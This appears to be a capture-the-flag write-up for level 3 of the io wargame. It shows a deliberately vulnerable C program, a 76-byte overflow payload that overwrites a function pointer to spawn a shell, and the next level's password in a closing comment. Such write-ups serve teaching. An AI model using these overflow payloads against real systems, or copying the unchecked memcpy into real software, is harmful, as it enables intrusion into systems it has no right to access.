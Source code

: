 ## Level 3:

Again we have access to the source file:

```c
  1 //bla, based on work by beach
  2 
  3 #include <stdio.h>
  4 #include <string.h>
  5 
  6 void good()
  7 {
  8         puts("Win.");
  9         execl("/bin/sh", "sh", NULL);
 10 }
 11 void bad()
 12 {
 13         printf("I'm so sorry, you're at %p and you want to be at %p\n", bad, good);
 14 }
 15 
 16 int main(int argc, char **argv, char **envp)
 17 {
 18         void (*functionpointer)(void) = bad;
 19         char buffer[50];
 20 
 21         if(argc != 2 || strlen(argv[1]) < 4)
 22                 return 0;
 23 
 24         memcpy(buffer, argv[1], strlen(argv[1]));
 25         memset(buffer, 0, strlen(argv[1]) - 4);
 26 
 27         printf("This is exciting we're going to %p\n", functionpointer);
 28         functionpointer();
 29 
 30         return 0;
 31 }
 32 

```

Looking at it, it is obvious that we need to overflow the bufferr and set the poointer for the function we want to execute. In this case we want to execute good().

Running it with some random input also gives us a hint by showing the address of the function we want to execute:

```console
level3@io:/levels$ ./level03 overflow
This is exciting we're going to 0x80484a4
I'm so sorry, you're at 0x80484a4 and you want to be at 0x8048474
```

To figure out how many bytes we need to overflow the buffer and other stuff we can just try to figure out the necessary amount of bytes needed to overflow and change the function pointer. This turns out to be 76 (it's obviously more then 50 as we first need to overflow the buffer set for argv[1])

```console
level3@io:/levels$ ./level03 $(python -c 'print "\x41" * 76 + "\x74\x84\x04\x08"')
This is exciting we're going to 0x8048474
Win.
sh-4.3$ 
```

Now we just cat the .pass to get the password for level4

<!-- Level 4 password => 7WhHa5HWMNRAYl9T -->